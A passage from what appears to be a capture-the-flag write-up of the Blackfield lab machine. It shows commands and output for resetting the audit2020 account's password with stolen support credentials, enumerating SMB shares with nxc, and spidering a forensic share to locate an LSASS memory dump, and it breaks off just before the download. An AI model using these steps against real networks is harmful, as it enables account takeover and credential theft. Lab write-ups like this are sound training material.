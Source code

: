 ![blood](1.png)

Our user can change the password of `audit2020`. We can use the following command for that.

```bash
net rpc password "audit2020" "newP@ssword2025" -U "BLACKFIELD.local"/"support"%"#00^BlackKnight" -S "BLACKFIELD.local"
```

Now let's check if we can access any more shares.

```terminal
[★]$ nxc smb 10.10.10.192 -u audit2020 -p 'newP@ssword2025' --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)                           
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:newP@ssword2025                                                                              
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin                                                                           
SMB         10.10.10.192    445    DC01             C$                              Default share  
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.      
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share 
```

We can now read the `forensic` share. I'll spider it with nxc and check the results.

```terminal
nxc smb 10.10.10.192 -u audit2020 -p 'newP@ssword2025' --share forensic -M spider_plus

"forensic": {
    "memory_analysis/lsass.zip": {
            "atime_epoch": "2020-05-28 20:25:08",
            "ctime_epoch": "2020-05-28 20:25:01",
            "mtime_epoch": "2020-05-28 20:29:24",
            "size": "39.99 MB"
        },
{
```

Out of all the files, the lsass sounds very interesting to me as it's in a folder called `memory_analysis` so this could be a dump of the lsass.

### LSASS

Let's download the file.
